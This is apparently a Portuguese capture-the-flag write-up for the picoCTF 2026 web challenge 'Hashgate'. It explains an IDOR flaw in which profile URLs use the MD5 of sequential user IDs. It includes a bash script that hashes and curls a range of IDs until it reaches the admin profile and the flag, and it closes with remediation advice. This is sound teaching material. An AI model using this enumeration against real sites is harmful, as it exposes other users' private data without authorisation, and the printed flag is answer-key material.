

# Hashgate | picoCTF 2026

`web` `idor` `md5` `brute-force` `curl`

| | |
|---|---|
| **Plataforma / evento** | picoCTF 2026 |
| **Categoria** | Web Exploitation |
| **Dificuldade / pontos** | Medium |
| **Autor do desafio** | Yahaya Meddy |
| **Resolvido em** | 2026-05-18 |

## TL;DR

Depois do login, o perfil fica em `/profile/user/<md5(id)>`. O ID é só um número sequencial passado por `MD5`, o que não protege nada: o espaço é enumerável. Como o enunciado diz que há ~20 funcionários e o meu ID ficava perto de 3000, calculo `MD5` de cada ID numa faixa pequena e acesso os perfis. O ID 3013 é o `admin` e devolve a flag.

> [!IMPORTANT]
> **Ideia-chave:** passar um identificador sequencial por uma função de hash **não** o torna secreto. Se o conjunto de entradas é pequeno e previsível, dá para pré-computar todos os hashes. É um IDOR com uma camada de ofuscação.

## Enunciado

> You have gotten access to an organisation's portal. Submit your email and password, and it redirects you to your profile. But be careful: just because access to the admin isn't directly exposed doesn't mean it's secure. Maybe someone forgot that obscurity isn't security... Can you find your way into the admin's profile for this organisation and capture the flag?

**Dicas oficiais:**

> 1. Notice anything about how the ID is being checked? It's not plain text… maybe a one-way function is involved.
> 2. There are about 20 employees in this organisation.

**Instância:** aplicação web (host e porta gerados pelo picoCTF).

## Dicas progressivas

<details><summary>Dica 1</summary>Olhe a URL do seu próprio perfil depois de logar. O trecho final é um hash.</details>
<details><summary>Dica 2</summary>Esse hash é o <code>MD5</code> do seu ID numérico de usuário.</details>
<details><summary>Dica 3</summary>Os IDs são sequenciais e há poucos funcionários. Faça <code>MD5</code> de cada ID vizinho e acesse <code>/profile/user/&lt;hash&gt;</code>.</details>

## Ambiente

- **Máquina atacante:** Kali Linux, com `bash`, `curl` e `md5sum`.

Na minha instância o alvo estava em `crystal-peak.picoctf.net:52295`. Use o da sua.

***INSERIR no terminal — Kali (atacante)

```bash
export BASE_URL=http://crystal-peak.picoctf.net:52295
```

## Resolução

### 1. Entendendo a URL do perfil

Depois de logar com a conta fornecida, o portal redireciona para a página de perfil, e a URL termina em um valor hexadecimal de 32 caracteres (`/profile/user/<hash>`). Testando, esse hash é o `MD5` do meu ID numérico de usuário, que ficava na casa dos 3000.

> [!TIP]
> **Conceito: IDOR (Insecure Direct Object Reference).** O servidor expõe um objeto (o perfil) diretamente por um identificador que o cliente controla, sem checar se aquele usuário pode vê-lo. Trocar o identificador por outro dá acesso ao objeto de outra pessoa. Passar o ID por `MD5` só troca "adivinhar o número" por "adivinhar o hash do número" — e como o número é pequeno e sequencial, o hash é igualmente previsível. Referência: [OWASP — IDOR](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/05-Authorization_Testing/04-Testing_for_Insecure_Direct_Object_References).

### 2. Enumerando os perfis

Com as duas dicas (ID sequencial, ~20 funcionários) e o meu ID perto de 3000, a conta fecha: basta calcular `MD5` de cada ID numa janela pequena em volta de 3000 e acessar o perfil correspondente, procurando a flag. Um perfil inexistente responde `User not found`, então filtro por isso.

#### `scripts/script1.sh`

```bash
#!/bin/bash

# Alvo da instância atual do desafio
BASE_URL="http://crystal-peak.picoctf.net:52295"

# O desafio diz que existem cerca de 20 funcionários.
# Testo uma faixa um pouco maior em volta do meu próprio ID (~3000).
START_ID=2990
END_ID=3050

for id in $(seq $START_ID $END_ID); do
    # MD5 do número, sem quebra de linha (-n)
    hash=$(echo -n "$id" | md5sum | awk '{print $1}')
    url="$BASE_URL/profile/user/$hash"
    response=$(curl -s -L "$url")

    # Se não devolver "User not found", é um perfil que existe
    if ! echo "$response" | grep -qi "User not found"; then
        echo "[+] ID=$id MD5=$hash"
        echo "$response" | sed 's/<[^>]*>/\n/g' | sed '/^[[:space:]]*$/d' | head -n 80
        flag=$(echo "$response" | grep -oE 'picoCTF\{[^}]+\}' | head -n 1)
        if [ -n "$flag" ]; then
            echo "[FLAG] $flag"
            exit 0
        fi
    fi
done
```

***INSERIR no terminal — Kali (atacante)

```bash
bash scripts/script1.sh
```

```text
[+] ID=3000 MD5=e93028bdc1aacdfb3687181f2031765d
Access level: Guest (ID: 3000). Insufficient privileges to view classified data. Only top-tier users can access the flag.
[+] ID=3013 MD5=4110a1994471c595f7583ef1b74ba4cb
Welcome, admin! Here is the flag: picoCTF{id0r_unl0ck_69c48f4b}
[FLAG] picoCTF{id0r_unl0ck_69c48f4b}
```

O ID 3000 é um Guest; o 3013 é o `admin` e devolve a flag na própria página.

## Cadeia de ataque



## Por que funciona

O controle de acesso ao perfil do admin depende apenas de o atacante não conhecer o identificador — é segurança por obscuridade. O `MD5` do ID não é segredo: o ID é um inteiro pequeno e sequencial, então o atacante pré-computa todos os hashes possíveis em segundos. Falta a verificação de autorização ("o usuário logado tem permissão de ver este perfil?"). Classe: CWE-639 (*Authorization Bypass Through User-Controlled Key*) / IDOR.

## Remediação

- Verificar autorização no servidor: o perfil do admin só pode ser servido para o próprio admin, independentemente do identificador na URL.
- Usar identificadores não sequenciais e não adivinháveis (UUID aleatório), mas isso é defesa em profundidade, não substitui a checagem de autorização.
- Hashear um valor previsível não cria segredo. Não confundir hash com controle de acesso.

## Lições e padrões

- **Sinais para reconhecer:** um identificador na URL (mesmo que "hasheado") + uma mensagem do tipo "você não tem privilégio" denunciam IDOR.
- **Da próxima vez eu tentaria primeiro:** olhar a URL do meu próprio recurso e testar enumerar vizinhos antes de qualquer coisa mais sofisticada.

## Referências

- [OWASP — Testing for IDOR](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/05-Authorization_Testing/04-Testing_for_Insecure_Direct_Object_References)
- [CWE-639](https://cwe.mitre.org/data/definitions/639.html)

## Flag

```text
picoCTF{id0r_unl0ck_69c48f4b}
```
